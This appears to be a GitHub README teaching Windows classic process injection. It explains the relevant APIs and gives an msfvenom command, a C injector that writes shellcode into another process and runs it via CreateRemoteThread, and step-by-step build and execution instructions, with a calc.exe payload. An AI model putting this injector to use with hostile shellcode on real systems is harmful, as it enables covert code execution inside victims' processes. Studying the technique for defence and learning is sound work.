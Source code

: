 # Classic Injection

---

# ℹ️ What is Classic Process Injection?

**Windows Classic Process Injection** refers to traditional techniques for injecting and executing arbitrary code inside another process on the Windows operating system. These methods leverage well-documented and widely available Windows API functions, making them popular among both attackers and security researchers.

---

## 📌 Key Characteristics:
- Based on **standard Windows APIs**.
- Common in malware, penetration testing, and red team tools.
- Often detected by modern security solutions (AV/EDR).
- Easy to implement and ideal for learning.

---

## 📚 Core Windows APIs Used:
| API                  | Purpose                                      |
|----------------------|---------------------------------------------|
| `OpenProcess`        | Opens a handle to the target process.        |
| `VirtualAllocEx`     | Allocates memory within the target process.  |
| `WriteProcessMemory` | Writes the shellcode or payload into memory. |
| `CreateRemoteThread` | Creates a thread in the target process to execute the payload. |

---

## 🔍 Common Classic Injection Techniques:
1. **CreateRemoteThread + WriteProcessMemory Injection:**  
   Most popular method for injecting shellcode or DLLs.
   
2. **LoadLibrary Injection:**  
   Injects a DLL by passing its path to `LoadLibrary` via a remote thread.

3. **Shellcode Injection (Manual Mapping Basics):**  
   Direct injection and execution of shellcode in the remote process memory.

---

## 📜 Why Is It Called "Classic"?
These methods are referred to as **classic** because they are among the earliest and simplest process injection techniques ever documented. Despite being old, they are still widely studied and used as the foundation for more advanced injection methods.

---

## ✅ Advantages:
- Easy to understand and implement.
- Great for learning about process memory and Windows internals.
- Useful for proof-of-concept (PoC) demonstrations.

---

## ⚠️ Limitations:
- Easily detectable by modern security tools.
- Lacks built-in stealth or evasion techniques.
- Requires OPSEC enhancements for real-world red team use.

---

## 🚨 Disclaimer:
This document and the techniques described are intended for **educational and research purposes only**. Unauthorized or malicious use of these techniques is strictly prohibited.

---

## 💣 Shellcode (Spawns calc.exe)


This is the shellcode used in this project (generated via msfvenom):
```powershell
msfvenom.bat -p windows/x64/exec CMD=calc.exe -f c
```
<img width="673" alt="calc-payload-1" src="https://github.com/user-attachments/assets/0992e1d4-d465-4c8c-b31f-f463e3c97049" />

---

## 🖥️  Setting Up in Visual Studio (Step by Step)

1. Open Visual Studio.

2. Click on "Create a new project."

3. Select "Empty Project" under C/C++ projects.

4. Name the project (example: Project1).

5. Click "Create."

6. In Solution Explorer:

    - Right-click on Source Files → Add → New Item.

    - Choose C File (.c) → Name it injection.c.

7. Paste your injector code (with the shellcode above) into injection.c.

## 🔍 Code Explanation — injection.c

```c
#include "Windows.h"  // Windows API header for process/memory/thread functions

int main(int argc, char *argv[]) {

    // Shellcode payload (this one spawns calc.exe, generated with msfvenom)
    unsigned char buf[] =
        "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"  // Raw shellcode bytes
        /* ... (rest of shellcode bytes) ... */
        "\x63\x61\x6c\x63\x00";  // Shellcode likely spawns calculator

    // Open the target process using its PID passed as a command-line argument (argv[1])
    HANDLE hprocess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, atoi(argv[1]));

    // Allocate memory inside the target process for the shellcode (read, write, execute permissions)
    LPVOID shellmem = VirtualAllocEx(
        hprocess, NULL, sizeof buf, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE
    );

    // Write the shellcode into the allocated memory inside the target process
    WriteProcessMemory(hprocess, shellmem, buf, sizeof buf, NULL);

    // Create a new thread in the target process that starts executing the shellcode
    HANDLE malthread = CreateRemoteThread(
        hprocess, NULL, 0, (LPTHREAD_START_ROUTINE)shellmem, NULL, 0, NULL
    );

    // Exit the injector (the injected shellcode keeps running in the target process)
    return 0;
}

```
---

## 🏗️ Build & 🚀 Execute the Project

  - Press Ctrl+Shift+B or Build → Build Solution.

## ✅ Execution:

Run a target process (like notepad.exe) manually or via terminal:

Get its Process ID (PID) using Task Manager or Process Hacker.

Run your injector from the terminal with the target PID:

```powershell
Project1.exe 4321
```
## 💥 The shellcode will now execute inside the target process, spawning calc.exe.

https://github.com/user-attachments/assets/f070e9e1-6d29-476d-92fe-e3e562e9edad


---

## Refrences:
  - https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess

---
